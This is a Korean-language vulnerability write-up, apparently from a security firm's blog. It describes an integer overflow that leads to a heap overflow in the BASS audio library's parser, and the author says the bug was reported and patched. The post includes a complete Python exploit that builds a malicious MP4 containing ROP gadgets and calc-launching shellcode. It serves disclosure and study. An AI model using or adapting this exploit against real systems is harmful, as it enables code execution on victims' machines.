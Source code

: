```yaml
---
layout   : post
markdown  : kramdown
highlighter : rouge
title    : Audio Library vulnerability analysis
date    : 2020-11-26 15:00:00 +0900
category  : R&D
author   : 이해찬
author_email: hlee@stealien.com
background : /assets/2020-11-26-audio_lib_exploit/audio.png
profile_image: /assets/2020-11-26-audio_lib_exploit/audio.png
summary   :  BASS Library Exploit
thumbnail  : /assets/2020-11-26-audio_lib_exploit/audio.png
---
```


# Audio Library vulnerability analysis

3-4년전에 찾아서 제보했던 오디오 라이브러리에 대한 취약점 분석글입니다.

BASS는 MP3,ACC,M4P,FLAC,OGG,WAV 등 여러가지 확장자를 지원하는 오디오 라이브러리입니다. 다수 프로그램이 현재까지도 사용하고 있습니다.



## 취약점 분석

### 개요

Audio File을 파싱하던중  data 필드 부분에서 integer overflow가 발생합니다. integer overflow를 통해 복사하는 데이터의 길이보다 작은 값을 힙할당 하게 되어 Heap overflow로 이어집니다.


### 분석

![image-20201117134210220](/assets/2020-11-26-audio_lib_exploit/image-20201117134210220.png) 

*sub_110249B6 (strlen)

*sub_11001009 (heap alloc)

*sub_110031E6 (File Read)

첫번째 박스에서 v4가 파일에서 읽어온 값입니다. (v4-7+3)&0xFC만큼 스택을 할당하고 파일에서 읽어와 해당스택에 저장합니다. 그리고 두번째 박스에서 data 필드를 파싱할때 힙할당시 계산되는 사이즈부분에서 검증미흡으로 integer overflow가 발생하게 됩니다.

v66은 파일에서 가져온 값이며, v8은 첫번째 박스에서 할당한 스택에 있는 내용의 길이입니다. 둘의 값을 잘 조절하면, 0xffffffff의 값을 넘기게 하여 v66보다 작은값을 할당 할 수 있습니다. 

v66-16 사이즈만큼 파일 데이터를 읽오다 sub_110031E6 내부에서 Heap overflow가 발생하게 됩니다.




### Exploit

![image-20201117140035807](/assets/2020-11-26-audio_lib_exploit/image-20201117140035807.png)

sub_110031E6 내부에서 qmemcpy로  파일내용을 복사한 이후에, sub_11003749가 호출됩니다.



![image-20201117140119996](/assets/2020-11-26-audio_lib_exploit/image-20201117140119996.png)

sub_11003749 함수에서 (*(a1+0x30)) 함수포인터가 호출되게 됩니다. 이때 Heap overflow로 인해 *(a1+0x30)의 값을 마음대로 조작 할 수 있게 되어 EIP 컨트롤을 할 수 있게 됩니다.

![image-20201117141031393](/assets/2020-11-26-audio_lib_exploit/image-20201117141031393.png)

WinDbg를 통해 디버깅을 진행해보았습니다. 함수 포인터를 호출할때, 스택상황을 보면, ESP에서 0x48만큼 떨어진거리에 아까 스택할당후 저장한 파일데이터가 존재하는것을 확인 할 수 있습니다.  해당부분에 ROP Chain을 구상하고,  "add esp,0x~~;ret" 와 같은 가젯을 사용하여 ROP Chain을 실행시켰습니다.



![image-20201117141227737](/assets/2020-11-26-audio_lib_exploit/image-20201117141227737.png)



Virtual_alloca API를 통해 rwx 권한을 주고, 그공간에 쉘코드를 복사하고 점프하여 실행시키는 ROP Chain을 작성하였습니다.



![image-20201117141641705](/assets/2020-11-26-audio_lib_exploit/image-20201117141641705.png)

BASS 라이브러리를 사용하고 A사 프로그램에서 테스트 하였습니다. (패치완료됨)

익스플로잇 파일을 읽으면 쉘코드(calc.exe)가 실행되는것을 볼 수 있습니다. 



### Exploit Code

```python
from struct import *

p32 = lambda x : pack("<L",x)

loop_cpy = ""
sub_eax = ""

shellcode = "\x90"*0x30 + "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7\xeb\xfe" + "\x90\x90"

#rop_gadget
cpy = 0x6350cbbc # mov dword ptr [eax], ecx ; pop esi ; ret
pop_ecx = 0x635070f2 
inc_eax = 0x63506ad8
jmp_eax = 0x63506dad # push eax ; ret
add_esp_13c = 0x63503f0b# : add esp, 0x13c ; ret   0x13c-0x48
virtual_alloc = 0x6350f0a4
ppppr = 0x63507389 # pop edi ; pop esi ; pop ebx ; pop ebp ; ret
pop_eax = 0x63507228 #: pop eax ; ret
push_ecx_ptr = 0x6070fff1 #: push dword ptr [ecx] ; add byte ptr [eax], al ; ret 0xc
mov_eax_ebx = 0x63507484 #: mov eax, ebx ; pop esi ; pop ebx ; pop ebp ; ret
sub_eax_20 = 0x6350db86 #: sub eax, 0x20 ; pop ebx ; ret

for i in range(0,len(shellcode),4):
	loop_cpy += p32(pop_ecx)
	loop_cpy += shellcode[i:i+4]
	loop_cpy += p32(cpy)
	loop_cpy += "\x90\x90\x90\x90"
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)

rop_chain = p32(mov_eax_ebx)
rop_chain += "\x90"*12            
rop_chain +=  p32(pop_ecx)
rop_chain += p32(virtual_alloc)
rop_chain += p32(push_ecx_ptr)
rop_chain += "\x90"*0xc
rop_chain += p32(ppppr)
rop_chain += p32(0)
rop_chain += p32(0x10000) # size
rop_chain += p32(0x1000)
rop_chain += p32(0x40) # execution
rop_chain += "\x90"*0x10
rop_chain += loop_cpy

for k in range(0,4,1):
	sub_eax += p32(sub_eax_20)
	sub_eax += "\x90\x90\x90\x90"

rop_chain += sub_eax
rop_chain += p32(jmp_eax)

header = "\x00\x00\x00\x08"
header += "\x66\x74\x79\x70" # file signature
header += "\x00\x00\x00\x09"   #  0x10 > 0x11   break pass
header += "\x69\x6C\x73\x74" # ilst
header += "\x00\x00\xAf\xff"  # 1 read size
header += "\x6E\x61\x6D\x65" # name
header += "\x90\x90\x90\x90" # dummy 

rop_space = "\x90"*0xf0 + p32(add_esp_13c) + "\x90"*0x13c 
for k in range(0,0x25,1):
	rop_space += p32(add_esp_13c)*0xf0

rop_space += rop_chain # 23c
rop_space += "\x90"*(0xAff3-len(rop_space))

header += rop_space

data_header = "\xff\xff\x72\xeb"
data_header += "\x64\x61\x74\x61"
data = "\x90\x90\x90" + p32(add_esp_13c)*(0xfd0/4)

f = open("exploit.mp4","w")
payload = header + data_header + data 

f.write(payload)
f.close()

```



### 대응방안

integer overflow가 발생하지 않게 연산할때 오버플로우를 검증 하는코드를 추가 합니다.


